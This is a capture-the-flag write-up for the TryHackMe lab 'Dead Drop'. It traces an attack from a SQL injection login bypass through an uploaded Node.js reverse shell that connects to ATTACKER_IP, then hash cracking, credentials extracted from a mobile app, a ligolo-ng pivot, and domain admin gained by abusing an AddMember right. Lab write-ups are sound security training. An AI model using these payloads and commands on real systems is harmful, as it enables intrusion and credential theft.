










# Dead Drop

**Difficulty:** 🟡 Medium · **Room:** [TryHackMe ↗](https://tryhackme.com/room/dead-drop)

DeadDrop Ltd's file-sharing application is your starting point. Everything you need to reach the domain controller can be discovered through careful enumeration and exploitation. Each question below marks a milestone in the attack chain.

---

## Reconnaissance

I began with an `nmap` scan to map out the attack surface:

```bash
nmap SERVER_IP -p- -sV -sC
```

Results:

SSH was running `OpenSSH 9.6p1`, and the HTTP service was running on the Node.js/Express framework. The scan also revealed a `/login` endpoint.

---

## Initial Access

I visited the webpage on port 80 and was redirected to `/login`, as expected. The page was a login page for the DeadDrop secure file-sharing platform. Neither the username nor password field had placeholders, so I had no clue about their expected format. Viewing the page source didn't reveal anything interesting. I checked whether the login page was vulnerable to SQL injection (SQLi), and it was. By submitting the payload:

```SQL
' OR 1=1 -- -
```

I gained access as an admin:



The only feature on the dashboard was a file upload. I immediately tried uploading a `.php` reverse shell. I clicked preview but didn't get a connection. Since the app used Node.js/Express, I uploaded a `.js` reverse shell instead (generated with [this site](https://www.revshells.com/)):

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/bash", []);
    var client = new net.Socket();
    client.connect(4444, "ATTACKER_IP", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```



---

## Privilege Escalation

After getting a connection, I found myself in the `/opt/app` directory. I quickly found a `/backup` directory containing a `shadow.bak` file. Reading its contents, I found what looked like a password hash for the `svc-drop` user. `hashcat` identified the hash format as `sha512crypt`, so I used `john` to crack it, and it worked:



I used those credentials to log in via SSH as `svc-drop`:



---

## Domain Compromise

I listed the directories again, and `/backup` showed up once more. This time it contained a `deaddrop-mobile.apk` file, so a mobile application was in play too. I transferred the file to my system and used [`mobsf`](https://mobsf.live/) to perform static analysis of the app. After processing the file, the results flagged hardcoded credentials, and sure enough, they were there:





I looked for ways to pivot to the domain controller. Pinging its IP address showed it was only reachable from inside the internal network, as `svc-drop`, so I needed to pivot through that account. 

I ran an `nmap` scan on the domain controller. Remember to use `-Pn`, since `ligolo-ng` doesn't support `nmap`'s host-discovery probes:



Next, I ran this command to generate a hosts file (to add to `/etc/hosts`) using the credentials found in the mobile app's code — this also confirmed the credentials were valid:

```bash
nxc smb 192.168.11.100 -u j.harris -p 'REDACTED' --generate-hosts-file hosts
```

Next, I ran BloodHound:

```bash
bloodhound-python -u j.harris -p 'REDACTED' -d deaddrop.loc -c All -ns 192.168.11.100 --zip 
```

BloodHound revealed that `j.harris` had an `AddMember` permission:



This meant `j.harris` could add himself to the `ADMINISTRATORS` group. BloodHound suggested how to do it:

```bash
net rpc group addmem "ADMINISTRATORS" "j.harris" \                               
  -U 'DEADDROP-DC.deaddrop.loc\j.harris%REDACTED' \
  -S 'DEADDROP-DC'
```

Next, I ran `evil-winrm`:

```bash
evil-winrm -i DEADDROP-DC.deaddrop.loc -u 'j.harris' -p 'REDACTED'
```

This confirmed membership in the Admin group:



And I read the flag:



---

## Kill Chain

This box was a long walk from a single web app all the way to the domain controller. SQL injection on the login form got admin access to the file-sharing dashboard, and its upload feature — expecting a `.php` shell but actually running Node.js/Express — took a JavaScript reverse shell instead, giving a foothold as the `node` user. A backup file with a crackable password hash handed over a real system account, `svc-drop`, and a second backup on that account turned out to hold an Android app with hardcoded domain credentials for `j.harris`.

Those credentials were only useful on the internal network, so `svc-drop`'s access became a pivot point: tunnelling through it with `ligolo-ng` exposed the domain controller, where BloodHound showed `j.harris` held an `AddMember` right that let him add himself straight to `ADMINISTRATORS` — no further exploitation needed to reach full domain admin.

`SQLi → admin dashboard → JS reverse shell (node) → cracked hash (svc-drop) → hardcoded creds in mobile app (j.harris) → pivot via ligolo-ng → AddMember abuse → Domain Admin`

- **Initial Access:** SQL injection on the login form → admin dashboard access → JavaScript reverse shell via file upload → shell as `node`
- **Privilege Escalation:** Crackable password hash in a backup file → SSH access as `svc-drop`
- **Credential Disclosure:** Hardcoded domain credentials in a mobile app found via `svc-drop` → valid AD credentials for `j.harris`
- **Lateral Movement:** `ligolo-ng` pivot through `svc-drop` → network access to the domain controller
- **Privilege Escalation:** `AddMember` right on the `ADMINISTRATORS` group → `j.harris` added himself → full domain admin

> Thanks for reading!